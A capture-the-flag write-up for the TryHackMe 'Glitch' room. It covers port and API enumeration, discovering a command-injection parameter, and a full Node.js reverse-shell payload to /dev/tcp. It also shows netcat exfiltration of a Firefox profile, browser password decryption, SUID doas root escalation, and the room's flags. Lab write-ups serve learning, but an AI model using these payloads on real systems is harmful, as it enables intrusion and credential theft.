 # Room: Glitch

## General Info
- **Room link:** [Glitch](https://tryhackme.com/room/glitch)

## Description

This is a simple challenge in which you need to exploit a vulnerable web application and root the machine. It is beginner oriented, some basic JavaScript knowledge would be helpful, but not mandatory. Feedback is always appreciated.

## Provided Files / Links
- [x] Target Machine IP (10.10.51.179)


## Enumeration / Recon
- Ports Enumeration

Basic port enumeration:
`nmap -sV 10.10.51.179 -p- -T5`

```
PORT   STATE SERVICE VERSION
80/tcp open  http    nginx 1.14.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

- Directories enumeration

```
gobuster dir -u http://10.10.51.179 -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
```

When visiting the website, I notice the following script in the HTML:

```

      function getAccess() {
        fetch('/api/access')
          .then((response) => response.json())
          .then((response) => {
            console.log(response);
          });
      }
    
```

I use Burp Suite to perform this request:

```
GET /api/access HTTP/1.1
Host: 10.10.51.179
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.6723.70 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Cookie: token=value
If-None-Match: W/"2d4-9vv1ycPBiNQXrvbVqqN9dD9MWUM"
Connection: keep-alive
```

And I get the following response:

```
HTTP/1.1 200 OK
Server: nginx/1.14.0 (Ubuntu)
Date: Fri, 23 May 2025 08:15:51 GMT
Content-Type: application/json; charset=utf-8
Content-Length: 36
Connection: keep-alive
X-Powered-By: Express
ETag: W/"24-8nMb1yUaJcnW8A0Wwa1z8teVcXo"

{"token":"dGhpc19pc19ub3RfcmVhbA=="}
```

The token is base64 encoded and the decoded version is `this_is_not_real`.

I then added the token value in the web application cookies. Now the page loads with elements added from the /api/items endpoint:

```
(async function () {
  const container = document.getElementById('items');
  await fetch('/api/items')
    .then((response) => response.json())
    .then((response) => {
      response.sins.forEach((element) => {
        let el = `<div class="item sins"><div class="img-wrapper"></div><h3>${element}</h3></div>`;
        container.insertAdjacentHTML('beforeend', el);
      });
      response.errors.forEach((element) => {
        let el = `<div class="item errors"><div class="img-wrapper"></div><h3>${element}</h3></div>`;
        container.insertAdjacentHTML('beforeend', el);
      });
      response.deaths.forEach((element) => {
        let el = `<div class="item deaths"><div class="img-wrapper"></div><h3>${element}</h3></div>`;
        container.insertAdjacentHTML('beforeend', el);
      });
    });

  const buttons = document.querySelectorAll('.btn');
  const items = document.querySelectorAll('.item');
  buttons.forEach((button) => {
    button.addEventListener('click', (event) => {
      event.preventDefault();
      const filter = event.target.innerText;
      items.forEach((item) => {
        if (filter === 'all') {
          item.style.display = 'flex';
        } else {
          if (item.classList.contains(filter)) {
            item.style.display = 'flex';
          } else {
            item.style.display = 'none';
          }
        }
      });
    });
  });
})();
```

I check which HTTP methods are allowed on this endpoint:

```
curl -i -X OPTIONS http://10.10.162.38/api/items

HTTP/1.1 200 OK
Server: nginx/1.14.0 (Ubuntu)
Date: Fri, 23 May 2025 08:48:25 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 13
Connection: keep-alive
X-Powered-By: Express
Allow: GET,HEAD,POST
ETag: W/"d-bMedpZYGrVt1nR4x+qdNZ2GqyRo"

GET,HEAD,POST% 
```

When making a POST request (without a payload), I get this response:

```
{"message":"there_is_a_glitch_in_the_matrix"}
```

Since I don't get much information about the api structure, I will try to fuzz parameters (I use the wordlist 1-4_all_letters_a-z.txt to test for all possible characters in a 4 letters parameter):

```
wfuzz -X POST -w /usr/share/wordlists/SecLists/Fuzzing/1-4_all_letters_a-z.txt --hc 404,400 http://10.10.162.38/api/items\?FUZZ\=1
```

And I get the following result:

```
=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                   
=====================================================================

000002370:   200        0 L      2 W        25 Ch       "cmd" 
```

Now I can exploit the cmd parameter to get a reverse shell (I use Burp Suite to create the connection):

```
POST /api/items?cmd=require("child_process").exec('bash+-c+"bash+-i+>%26+/dev/tcp/10.9.1.194/1337+0>%261"') HTTP/1.1
Host: 10.10.162.38
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.6723.70 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
```

I am in the target machine now and I stabilize the shell with `python3 -c 'import pty; pty.spawn("/bin/bash")'`.

I then find the flag in /home/user/user.txt: **THM{i_don't_know_why}**.

In the /home/user directory, I find a .firefox directory.

I then proceed to zip the folder (firefox.tar.gz) and send it to my machine:

```
nc 10.9.1.194 33456 < firefox.tar.gz (on target machine)
nc -nvlp 33456 > firefox.tar.gz (on my machine)
```
I find this github https://github.com/unode/firefox_decrypt to decrypt passwords.

```
python3 firefox_decrypt/firefox_decrypt.py .firefox
Select the Mozilla profile you wish to decrypt
1 -> hknqkrn7.default
2 -> b5w4643p.default-release
```

When selecting the second option, I get v0id's password:

```
Website:   https://glitch.thm
Username: 'v0id'
Password: 'love_the_void'
```

I can now switch user and become v0id.

I then run the following command to find files with potentially insecure or incorrect SUID bits:

```
find / -perm -4000 -type f -exec ls -l {} \; 2>/dev/null
```

And I find this file:

```
-rwsr-xr-x 1 root root 37952 Jan 15  2021 /usr/local/bin/doas
```

I then use the following doas exploit:

```
/usr/local/bin/doas -u root /bin/bash
```

And I am root. I find the root flag in /root/root.txt: **THM{diamonds_break_our_aching_minds}**